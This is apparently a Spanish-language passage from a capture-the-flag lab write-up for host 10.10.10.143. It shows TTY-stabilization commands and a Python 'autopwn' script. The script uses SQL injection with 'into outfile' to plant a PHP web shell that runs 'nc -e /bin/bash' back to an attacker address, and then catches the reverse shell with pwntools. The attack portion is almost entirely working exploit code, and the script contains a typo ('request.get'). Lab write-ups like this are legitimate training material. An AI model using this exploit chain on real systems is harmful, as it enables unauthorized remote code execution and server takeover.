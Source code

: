 ```bash
whoami 

>www-data
```

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Autopwn in python {-}

```python
#!/usr/bin/python3

import requests
import pdb
import sys
import signal
import time 
import threading

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo..\n")
    sys.exit(1)

# Ctrl_C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
create_file = '''http://10.10.10.143/room.php?cod=-1 union select 1,2,"<?php system('nc -e /bin/bash 10.10.14.7 443'); ?>",4,5,6,7 into outfile "/var/www/html/reverse.php"-- -'''
exec_file = "http://10.10.10.143/reverse.php"
lport = 443

def makeRequest():
    r = request.get(create_file)
    r = request.get(exec_file)

if __name__ == '__main__':
    try:
        threading.Thread(target=makeRequest, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()
    shell.interactive()

```
